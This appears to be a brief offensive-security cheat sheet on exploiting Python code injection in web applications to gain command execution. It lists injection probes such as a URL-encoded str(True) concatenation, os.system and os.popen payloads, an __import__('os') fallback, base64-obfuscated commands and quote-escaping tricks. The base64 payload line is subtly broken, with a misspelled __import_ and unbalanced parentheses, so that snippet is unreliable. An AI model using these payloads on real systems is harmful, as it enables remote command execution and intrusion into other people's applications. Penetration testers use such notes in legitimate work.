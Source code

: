 Python

## Command execution

- pay attention if it's python2 or python3
- Find the character to escape 
- ensure it's a python application (good chance : `%2Bstr(True)%2B`)
- inside str, if you put `os.system('ls')` and 0 on return, you have it. (command executed successfuly). To have the value returned, use instead `os.popen('<cmd>').read()`
- if os is not imported : `__import__('os').popen...`
- use base64 : `__import__('os').popen(__import_('base64').b64decode()))`

Try different escaping characters `" '` and concatenation `+ .`
